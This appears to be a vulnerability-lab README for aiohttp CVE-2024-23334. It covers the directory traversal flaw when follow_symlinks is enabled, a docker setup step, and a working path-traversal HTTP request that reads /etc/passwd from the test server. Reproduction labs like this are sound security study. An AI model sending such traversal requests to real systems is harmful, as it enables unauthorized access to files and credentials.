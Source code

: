 # aiohttp Directory Traversal Vulnerability (CVE-2024-23334)

[中文版本(Chinese version)](README.zh-cn.md)

aiohttp is an asynchronous HTTP client/server framework for asyncio and Python.
When using aiohttp as a web server and configuring static routes, it is necessary to specify the root path for static files. Additionally, the option 'follow_symlinks' can be used to determine whether to follow symbolic links outside the static root directory.When 'follow_symlinks' is set to True, there is no validation to check if reading a file is within the root directory. This can lead to directory traversal vulnerabilities, resulting in unauthorized access to arbitrary files on the system, even when symlinks are not present. The affected versions include 3.9.1 and earlier.

References:

- [NVD - CVE-2024-23334](https://nvd.nist.gov/vuln/detail/CVE-2024-23334)

- [aiohttp Directory Traversal Vulnerability (CVE-2024-23334 Analysis)](https://www.venustech.com.cn/new_type/aqldfx/20240401/27962.html)

## Environment Setup

Execute the following command to start a aiohttp server v3.9.1:

```
docker compose up -d
```

After the server starts, the web page can be accessed by visiting `http://your-ip:8080/` in a browser.

## Vulnerability Reproduction

This vulnerability can be exploited by crafting a malicious path to access arbitrary files on the server.

For example, to view the system file /etc/passwd, send the following request:

```
GET /static/../../../../../etc/passwd HTTP/1.1
Host: your-ip:8080
Content-Length: 2
```

![Request crafted to access /etc/passwd](1.png)

If successful, you will see the contents of `/etc/passwd`. which proves that the vulnerability exists.
